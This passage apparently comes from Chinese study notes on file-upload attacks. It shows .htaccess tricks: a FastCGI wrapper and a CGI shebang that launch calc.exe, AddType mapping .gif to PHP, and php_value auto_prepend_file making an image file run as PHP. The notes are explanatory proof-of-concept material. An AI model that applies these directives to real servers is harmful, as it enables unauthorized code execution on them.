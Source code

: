 ce.xx

```
#!C:/Windows/System32/cmd.exe /k start calc.exe
```

###### 	FastCGI启动

`mod_fcgid.so`需要被加载。即 `apache` 配置文件中有

```
LoadModule fcgid_module modules/mod_fcgid.so
```

.htaccess

```
Options +ExecCGI
AddHandler fcgid-script .xx
FcgidWrapper "C:/Windows/System32/cmd.exe /k start calc.exe" .xx
```

#### iii.AddType( 可以将给定的文件扩展名映射到指定的内容类型)

```
AddType media-type extension [extension] ...
AddType application/x-httpd-php .gif
```

#### 	iiii.php_value/php_flag

​	当使用 `PHP` 作为 `Apache` 模块时，也可以用 `Apache` 的配置文件（例如 `httpd.conf`）和 `.htaccess` 文件中的指令来修改 `php` 的配置设定。需要有`AllowOverride Options` 或`AllowOverride All` 权限才可以。

`php_value` 设定指定的值。要清除先前设定的值，把 `value` 设为 `none`。不要用 `php_value` 设定布尔值。应该用 `php_flag`。

```
php_value name value
```

![image-20221126141251804](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126141251804.png)

##### (1) 文件包含利用

![image-20221126141356094](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126141356094.png)

- auto_prepend_file：在主文件解析之前自动解析包含的文件
- auto_append_file：在主文件解析后自动解析包含的文件

```
php_value auto_prepend_file images.png
```

访问一个 `php` 文件时，在该文件解析之前会先自动解析 images.png 文件

(2) 绕过preg_match

![image-20221126141457111](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126141457111.png)
例如：
